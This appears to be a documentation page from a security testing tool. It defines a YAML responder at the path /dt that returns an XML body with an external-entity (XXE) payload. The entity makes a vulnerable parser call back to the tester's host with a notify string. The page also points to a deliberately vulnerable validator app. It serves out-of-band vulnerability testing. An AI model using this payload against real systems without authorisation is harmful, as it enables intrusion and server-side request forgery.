 ```yaml
---
title: XXE System
description: More XXE
weight: 1
pattern: /dt$
is_final: true
data:
  headers:
  Content-Type: text/xml
  body: |-
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://{{ .Host }}/{{ .NotifyString }}/xxe-test" >
    ]>
    <foo>&xxe;</foo>

---
```


### /dt

A vulnerable application for testing is in [../../../../cmd/xodbox-validator](../../../../cmd/xodbox-validator)


